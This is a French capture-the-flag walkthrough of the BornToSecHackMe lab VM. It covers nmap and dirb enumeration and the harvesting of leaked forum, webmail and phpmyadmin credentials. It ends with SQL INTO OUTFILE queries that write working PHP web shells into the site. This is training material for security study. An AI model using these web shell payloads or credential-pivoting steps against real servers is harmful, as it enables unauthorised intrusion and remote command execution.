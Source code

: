 # WRITEUP1

Après installation et lancement de la VM, on nous demande un mot de passe et l'adresse ip de la machine n'est pas indiqué.
On cherche a scanner un port ouvert part notre vm, pour cela, on configure le réseau de notre vm (sur VM box) en accès par pont.
On cherche à trouver une potentiel adresse ip créé par la VM  :

```bash
λ arp -a

Interface : 192.168.99.1 --- 0x6
  Adresse Internet      Adresse physique      Type
  192.168.99.255        ff-ff-ff-ff-ff-ff     statique
  ....

Interface : 192.168.1.26 --- 0x8
  Adresse Internet      Adresse physique      Type
  192.168.1.1           6c-ba-b8-be-0a-20     dynamique
  192.168.1.10          20-9a-7d-c0-45-d5     dynamique
  192.168.1.11          78-dd-12-93-0b-02     dynamique
  192.168.1.12          ec-b5-fa-31-6f-1f     dynamique
  192.168.1.13          48-ba-4e-c5-ce-7e     dynamique
  192.168.1.14          48-d6-d5-71-33-6d     dynamique
  192.168.1.15          42-e5-79-05-cc-33     dynamique
  192.168.1.16          84-b8-b8-04-7f-fb     dynamique
  192.168.1.17          e0-ac-cb-33-5b-bf     dynamique
  192.168.1.22          08-00-27-99-d9-06     dynamique
  224.0.0.250           01-00-5e-00-00-fa     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  224.0.1.60            01-00-5e-00-01-3c     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
  239.255.255.251       01-00-5e-7f-ff-fb     statique
  ...

```

On peut également trouver l'adrese ip directement dans les configs du routeur.

On cherche maintenant a tester les différentes adresses de type `dynamique` avec la commande ping.
Plusieurs adresses répondes, on peut les essayer une part une avec `nmap` :

```bash
λ nmap 192.168.1.22 
Nmap scan report for IP (IP)
Host is up (0.0055s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s
Nmap done: 1 IP address (1 host up) scanned in 4.71 seconds
```

L'adresse `192.168.1.22` dispose d'un site web qui nous affiche une page avec ecrit `HACK ME`. Après différents tests et quelques recherche on trouve différents moyen de découvrir des fails et d'autres pages accessibles.

Nous avons utilisez les `web scanner` `Arachni`, `dirb` et `nikto`, tous présent par défault sur l'os `kali` .

Nous allons travailler avec l'os `Kali` sur `wsl` à partir de maintenant car celui-ci inclut la plupart des outils de `Pen Testing` dont nous aurons besoin par la suite .

```bash
└─$ dirb https://192.168.1.22/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Sep  8 13:21:51 2021
URL_BASE: https://192.168.1.22/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.22/ ----
+ https://192.168.1.22/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://192.168.1.22/forum/
==> DIRECTORY: https://192.168.1.22/phpmyadmin/
+ https://192.168.1.22/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://192.168.1.22/webmail/
```

Grace a ces `web scanner` on identifie de nouvelles pages accessibles : `/forum`, `/phpmyadmin`, `/webmail`.
Dans le post `Probleme login?` du forum, on peut voir des tentatives de connections avec différents nom d'user et ce qui ressemble a un mot de passe :

```bash
Oct 5 08:45:29 BornToSecHackMe sshd\[7547\]: Failed password for invalid user !q\\\]Ej?\*5K5cy\*AJ from 161.202.39.38 port 57764 ssh2  
Oct 5 08:45:29 BornToSecHackMe sshd\[7547\]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail \[preauth\]  
Oct 5 08:46:01 BornToSecHackMe CRON\[7549\]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

On reussi a se logger avec le nom d'user `lmezard` et le mot de passe `!q\\\]Ej?\*5K5cy\*AJ` au forum. Sur le profil de l'utilisateur on obtien l'adresse email de l'user : `laurie@borntosec.net`. On essaye de se logger sur `http://192.168.1.22/webmail` avec l'addresse email et le précédent mot de passe. On se connecte.
Un des emails de l'utilisateur nous donne un accès à la page `phpmyadmin` :  

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

phpmyadmin user: `root`
phpmyadmin password: `Fg-'kKXBj87E:aJ$`

Maintenant que l'on a un accès root à la db SQL, on cherche a faire une exploit appelé `web shell`. Grâce a `dirb` on peut obtenir une liste des dossiers utilisés par le site: 

```bash
└─$ dirb https://192.168.1.22/forum/

...

==> DIRECTORY: https://192.168.1.22/forum/js/
==> DIRECTORY: https://192.168.1.22/forum/lang/
==> DIRECTORY: https://192.168.1.22/forum/modules/
==> DIRECTORY: https://192.168.1.22/forum/templates_c/
==> DIRECTORY: https://192.168.1.22/forum/themes/
==> DIRECTORY: https://192.168.1.22/forum/update/

└─$ dirb https://192.168.1.22/webmail/

...

==> DIRECTORY: https://192.168.1.22/webmail/plugins/
==> DIRECTORY: https://192.168.1.22/webmail/src/
==> DIRECTORY: https://192.168.1.22/webmail/themes/
```

On cherche a obtenir le dossier par default du serveur web :

```bash
└─$ whatweb https://192.168.1.22/
https://192.168.1.22/ [404 Not Found] Apache[2.2.22], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[192.168.1.22], Title[404 Not Found]
```
Le serveur tourne sur Apache 2 donc `/var/www` pour le dossier par default.

On cherche a créé une nouvelle page qui nous permettera d'utiliser le `shell`. Pour cela on utilise la commande `
SELECT "<? system($_REQUEST['cmd']); ?>",2,3,4 INTO OUTFILE "/var/www/{folder}/{filename}.php" -- 1` avec les différents dossiers disponible pour en trouver un avec les droits d'écriture. On arrive a écrire notre fichier dans le dossier `templates_c`.

La requete sql pour créé notre fichier web_shell:

```sql
SELECT "<html><body><pre><form method=\"GET\" name=\"<?php echo basename($_SERVER['PHP_SELF']); ?>\"><input type=\"TEXT\" name=\"cmd\" autofocus id=\"cmd\" size=\"80\"><input type=\"SUBMIT\" value=\"Execute\"></form><?php if(isset($_GET['cmd'])){echo 'Shell: ';system($_GET['cmd']);}?></pre></body></html>" INTO OUTFILE '/var/www/forum/templates_c/web_shell.php'
```

une option simplifier sans le html pour curl :

```sql
SELECT "<?php if(isset($_GET['cmd'])){system($_GET['cmd']);}?>" INTO OUTFILE '/var/www/forum/templates_c/curl_shell.php'
```